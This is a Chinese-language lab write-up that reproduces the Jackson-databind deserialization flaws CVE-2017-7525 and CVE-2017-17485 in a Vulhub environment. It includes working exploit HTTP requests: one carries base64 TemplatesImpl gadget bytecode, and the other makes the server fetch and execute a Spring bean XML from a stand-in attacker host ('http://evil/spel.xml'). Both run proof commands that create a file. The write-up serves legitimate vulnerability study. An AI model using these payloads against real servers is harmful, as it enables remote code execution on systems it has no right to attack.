




Jackson-databind 反序列化漏洞 CVE-2017-7525 / CVE-2017-17485¶
漏洞描述¶
Jackson-databind 支持 Polymorphic Deserialization 特性（默认情况下不开启），当 json 字符串转换的 Target class 中有 polymorph fields，即字段类型为接口、抽象类或 Object 类型时，攻击者可以通过在 json 字符串中指定变量的具体类型 (子类或接口实现类)，来实现实例化指定的类，借助某些特殊的 class，如 TemplatesImpl，可以实现任意代码执行。
所以，本漏洞利用条件如下：
- 开启 JacksonPolymorphicDeserialization，即调用以下任意方法
objectMapper.enableDefaultTyping(); // default to using DefaultTyping.OBJECT_AND_NON_CONCRETE
objectMapper.enableDefaultTyping(ObjectMapper.DefaultTyping.NON_FINAL);
- Target class 需要有无参 constructor
- Target class 中需要需要有字段类型为 Interface、abstract class、Object，并且使用的 Gadget 需要为其子类 / 实现接口
环境搭建¶
Vulhub 搭建环境：
docker-compose up -d
环境启动后，Web 运行在 http://your-ip:8080/。
漏洞复现¶
CVE-2017-7525¶
Jackson-databind 在设置 Target class 成员变量参数值时，若没有对应的 getter 方法，则会使用 SetterlessProperty 调用 getter 方法，获取变量，然后设置变量值。当调用 getOutputProperties() 方法时，会初始化 transletBytecodes 包含字节码的类，导致命令执行，具体可参考 java-deserialization-jdk7u21-gadget-note 中关于 TemplatesImpl 的说明。
使用 JDK7u21 的 com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl 作为 Gadget，发送如下请求，将会执行 touch /tmp/prove1.txt：
POST /exploit HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 1298
{
"param": [
"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
{
"transletBytecodes": [
"yv66vgAAADMAKAoABAAUCQADABUHABYHABcBAAVwYXJhbQEAEkxqYXZhL2xhbmcvT2JqZWN0OwEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAcTGNvbS9iMW5nei9zZWMvbW9kZWwvVGFyZ2V0OwEACGdldFBhcmFtAQAUKClMamF2YS9sYW5nL09iamVjdDsBAAhzZXRQYXJhbQEAFShMamF2YS9sYW5nL09iamVjdDspVgEAClNvdXJjZUZpbGUBAAtUYXJnZXQuamF2YQwABwAIDAAFAAYBABpjb20vYjFuZ3ovc2VjL21vZGVsL1RhcmdldAEAEGphdmEvbGFuZy9PYmplY3QBAAg8Y2xpbml0PgEAEWphdmEvbGFuZy9SdW50aW1lBwAZAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwwAGwAcCgAaAB0BABV0b3VjaCAvdG1wL3Byb3ZlMS50eHQIAB8BAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAAhACIKABoAIwEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQHACUKACYAFAAhAAMAJgAAAAEAAgAFAAYAAAAEAAEABwAIAAEACQAAAC8AAQABAAAABSq3ACexAAAAAgAKAAAABgABAAAABgALAAAADAABAAAABQAMAA0AAAABAA4ADwABAAkAAAAvAAEAAQAAAAUqtAACsAAAAAIACgAAAAYAAQAAAAoACwAAAAwAAQAAAAUADAANAAAAAQAQABEAAQAJAAAAPgACAAIAAAAGKiu1AAKxAAAAAgAKAAAACgACAAAADgAFAA8ACwAAABYAAgAAAAYADAANAAAAAAAGAAUABgABAAgAGAAIAAEACQAAABYAAgAAAAAACrgAHhIgtgAkV7EAAAAAAAEAEgAAAAIAEw=="
],
"transletName": "a.b",
"outputProperties": {}
}
]
}


这个 POC 只能运行在目标为 JDK7u21 以下的环境中，其他情况请更换 Gadget。
CVE-2017-17485¶
CVE-2017-7525 黑名单修复 绕过，利用了 org.springframework.context.support.FileSystemXmlApplicationContext。
利用该漏洞，我们需要创建一个 bean 文件，放置在任意服务器上，如 http://evil/spel.xml，内容如下：
<beans xmlns="http://www.springframework.org/schema/beans"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="
http://www.springframework.org/schema/beans
http://www.springframework.org/schema/beans/spring-beans.xsd
">
<bean id="pb" class="java.lang.ProcessBuilder">
<constructor-arg>
<array>
<value>touch</value>
<value>/tmp/prove2.txt</value>
</array>
</constructor-arg>
<property name="any" value="#{ pb.start() }"/>
</bean>
</beans>
然后，发送如下数据包，使 Jackson 加载 bean，触发漏洞：
POST /exploit HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 134
{
"param": [
"org.springframework.context.support.FileSystemXmlApplicationContext",
"http://your-vps-ip/spel.xml"
]
}

成功执行 touch /tmp/prove2.txt：
